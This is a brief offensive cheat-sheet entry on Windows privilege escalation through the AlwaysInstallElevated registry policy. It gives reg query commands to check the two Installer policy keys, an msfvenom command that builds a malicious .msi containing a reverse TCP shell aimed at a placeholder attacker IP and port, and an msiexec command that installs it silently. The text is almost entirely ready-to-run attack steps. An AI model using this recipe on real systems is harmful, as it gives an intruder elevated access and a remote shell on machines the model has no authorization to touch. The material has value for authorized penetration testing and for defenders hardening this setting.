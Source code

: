 For this to work both of the following registry values need to be set

	reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
	reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

If so, create a malicious .msi file with msfvenom

	msfvenom -p windows/x64/shell_reverse_tcp LHOST=[Attacker IP] LPORT=[Attacker port] -f msi -o malicious.msi

Then run it on the system

	msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi